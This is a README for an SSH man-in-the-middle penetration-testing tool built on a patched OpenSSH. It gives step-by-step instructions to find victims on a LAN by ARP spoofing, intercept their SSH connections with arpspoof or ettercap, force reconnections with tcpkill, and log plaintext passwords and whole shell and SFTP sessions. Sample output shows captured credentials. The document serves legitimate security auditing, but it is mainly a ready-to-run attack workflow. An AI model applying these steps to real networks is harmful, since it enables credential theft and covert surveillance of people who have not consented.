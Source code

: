 # SSH MITM v2.2

Author: [Joe Testa](https://www.positronsecurity.com/company/) ([@therealjoetesta](https://twitter.com/therealjoetesta))


## Preparation

packages: libpcap-dev autoconf build-essential zlib1g-dev libssl-dev

```bash
sudo apt-get install -y libpcap-dev

```

## Overview

This penetration testing tool allows an auditor to intercept SSH connections.  A patch applied to the OpenSSH v7.5p1 source code causes it to act as a proxy between the victim and their intended SSH server; all plaintext passwords and sessions are logged to disk.

Of course, the victim's SSH client will complain that the server's key has changed.  But because 99.99999% of the time this is caused by a legitimate action (OS re-install, configuration change, etc), many/most users will disregard the warning and continue on.

**NOTE:** Only run the modified *sshd_mitm* in a VM or container!  Ad-hoc edits were made to the OpenSSH sources in critical regions, with no regard to their security implications.  Its not hard to imagine these edits introduce serious vulnerabilities.


## Change Log

* v2.2: September 16, 2019: Fixed installation on Kali & Linux Mint 19.  Fixed a double-password prompt that occured under certain conditions.  Improved error logging.
* v2.1: January 4, 2018: Enabled non-interactive command execution, connections to old servers with weak algorithms can now be intercepted, fixed two major bugs which caused AppArmor to kill some connections, and improved error logging.
* v2.0: September 12, 2017: Added full SFTP support(!) and AppArmor confinement.
* v1.1: July 6, 2017: Removed root privilege dependencies, added automatic installer, added Kali Linux support, added *JoesAwesomeSSHMITMVictimFinder.py* script to find potential targets on a LAN.
* v1.0: May 16, 2017: Initial revision.


## To Do

The following list tracks areas to improve:

* Add port forwarding support.
* Create wrapper script that detects when user is trying to use key authentication only, and de-spoof them automatically.


## Initial Setup

As root, run the *install.sh* script.  This will install prerequisites from the repositories, download the OpenSSH archive, verify its signature, compile it, and initialize a non-privileged environment to execute within.


## Finding Targets

The *JoesAwesomeSSHMITMVictimFinder.py* script makes finding targets on a LAN very easy.  It will ARP spoof a block of IPs and sniff for SSH traffic for a short period of time before moving on to the next block.  Any ongoing SSH connections originating from devices on the LAN are reported.

By default, *JoesAwesomeSSHMITMVictimFinder.py* will ARP spoof and sniff only 5 IPs at a time for 20 seconds before moving onto the next block of 5.  These parameters can be tuned, though a trade-off exists: the more IPs that are spoofed at a time, the greater the chance you will catch an ongoing SSH connection, but also the greater the strain you will put on your puny network interface.  Under too high of a load, your interface will start dropping frames, causing a denial-of-service and greatly raising suspicions (this is bad).  The defaults shouldn't cause problems in most cases, though it'll take longer to find targets.  The block size can be safely raised on low-utilization networks.

Example:

    # ./JoesAwesomeSSHMITMVictimFinder.py --interface enp0s3 --ignore-ips 10.11.12.50,10.11.12.53
    Found local address 10.11.12.141 and adding to ignore list.
    Using network CIDR 10.11.12.141/24.
    Found default gateway: 10.11.12.1
    IP blocks of size 5 will be spoofed for 20 seconds each.
    The following IPs will be skipped: 10.11.12.50 10.11.12.53 10.11.12.141


    Local clients:
      * 10.11.12.70 -> 174.129.77.155:22
      * 10.11.12.43 -> 10.11.99.2:22

The above output shows that two devices on the LAN have created SSH connections (10.11.12.43 and 10.11.12.70); these can be targeted for a man-in-the-middle attack.  Note, however, that in order to potentially intercept credentials, you'll have to wait for them to initiate new connections.  Impatient pentesters may opt to forcefully close existing SSH sessions (using the *tcpkill* tool), prompting clients to create new ones immediately...


## Running The Attack

1.) Once you've completed the initial setup and found a list of potential victims (see above), execute *start.sh* as root.  This will start *sshd_mitm*, enable IP forwarding, and set up SSH packet interception through *iptables*.

2.) ARP spoof the target(s) (**Protip:** do NOT spoof all the things!  Your puny network interface won't likely be able to handle an entire network's traffic all at once.  Only spoof a couple IPs at a time):

    arpspoof -r -t 192.168.x.1 192.168.x.5

Alternatively, you can use the *ettercap* tool:

    ettercap -i enp0s3 -T -M arp /192.168.x.1// /192.168.x.5,192.168.x.6//

3.) Monitor *auth.log*.  Intercepted passwords will appear here:

    sudo tail -f /var/log/auth.log

4.) Once a session is established, a full log of all input & output can be found in */home/ssh-mitm/*.  SSH sessions are logged as *shell_session_\*.txt*, and SFTP sessions are logged as *sftp_session_\*.html* (with transferred files stored in a corresponding directory).


## Sample Results

Upon success, */var/log/auth.log* will have lines that log the password, like this:

    Sep 11 19:28:14 showmeyourmoves sshd_mitm[16798]: INTERCEPTED PASSWORD: hostname: [10.199.30.x]; username: [jdog]; password: [supercalifragilistic] [preauth]

Furthermore, the victim's entire SSH session is logged:

    # cat /home/ssh-mitm/shell_session_0.txt
    Hostname: 10.199.30.x
    Username: jdog
    Password: supercalifragilistic
    -------------------------
    Last login: Thu Aug 31 17:42:38 2017
    OpenBSD 6.1 (GENERIC.MP) #21: Wed Aug 30 08:21:38 CEST 2017

    Welcome to OpenBSD: The proactively secure Unix-like operating system.

    Please use the sendbug(1) utility to report bugs in the system.
    Before reporting a bug, please try to reproduce it with the latest
    version of the code.  With bug reports, please try to ensure that
    enough information to reproduce the problem is enclosed, and if a
    known fix for it exists, include that as well.

    jdog@jefferson ~ $ ppss
      PID TT  STAT       TIME COMMAND
    59264 p0  Ss      0:00.02 -bash (bash)
    52132 p0  R+p     0:00.00 ps
    jdog@jefferson ~ $ iidd
    uid=1000(jdog) gid=1000(jdog) groups=1000(jdog), 0(wheel)
    jdog@jefferson ~ $ sssshh  jjtteessttaa@@mmaaggiiccbbooxx
    jtesta@magicbox's password: ROFLC0PTER!!1juan


Note that the characters in the user's commands appear twice in the file because the input from the user is recorded, as well as the output from the shell (which echoes characters back).  Observe that when programs like *sudo* and *ssh* temporarily disable echoing in order to read a password, duplicate characters are not logged.

All SFTP activity is captured as well.  Use a browser to view *sftp_session_0.html*.  It contains a log of commands, with links to files uploaded and downloaded:

    # cat /home/ssh-mitm/sftp_session_0.txt
    <html><pre>Hostname: 10.199.30.x
    Username: jdog
    Password: supercalifragilistic
    -------------------------
    > realpath "." (Result: /home/jdog)
    > realpath "/home/jdog/." (Result: /home/jdog)
    > ls /home/jdog
    drwxr-xr-x    4 jdog     jdog         4096 Sep 11 16:12 .
    drwxr-xr-x    4 root     root         4096 Sep  6 11:53 ..
    -rw-r--r--    1 jdog     jdog         3771 Aug 31  2015 .bashrc
    -rw-r--r--    1 jdog     jdog          220 Aug 31  2015 .bash_logout
    drwx------    2 jdog     jdog         4096 Sep  6 11:54 .cache
    -rw-r--r--    1 jdog     jdog          655 May 16 08:49 .profile
    drwx------    2 jdog     jdog         4096 Sep  8 16:59 .ssh
    -rw-rw-r--    1 jdog     jdog      5242880 Sep  8 15:52 file
    -rw-rw-r--    1 jdog     jdog        43131 Sep 10 10:47 file2
    -rw-rw-r--    1 jdog     jdog           83 Sep  6 12:56 file3
    -rw-rw-r--    1 jdog     jdog      3048960 Sep 11 13:51 file4

    > realpath "/home/jdog/file5" (Result: /home/jdog/file5)
    > put <a href="sftp_session_0/file5">/home/jdog/file5</a>
    > realpath "/home/jdog/file5" (Result: /home/jdog/file5)
    > stat "/home/jdog/file5" (Result: flags: 15; size: 854072; uid: 1001; gid: 1001; perm: 0100664, atime: 1505172831, mtime: 1505172831)
    > setstat "/home/jdog/file5" (Result: flags: 4; size: 0; uid: 0; gid: 0; perm: 0100700, atime: 0, mtime: 0)
    </pre></html>


## Developer Documentation

In *lol.h* are two defines: *DEBUG_HOST* and *DEBUG_PORT*.  Enable them and set the hostname to a test server.  Now you can connect to *sshd_mitm* directly without using ARP spoofing in order to test your changes, e.g.:

    ssh -p 2222 valid_user_on_debug_host@localhost

To test out changes to the OpenSSH source code, use the *dev/redeploy.sh* script.

To see a diff of uncommitted changes, use the *dev/make_diff_of_uncommitted_changes.sh* script.

To re-generate a full patch to the OpenSSH sources, use the *dev/regenerate_patch.sh* script.
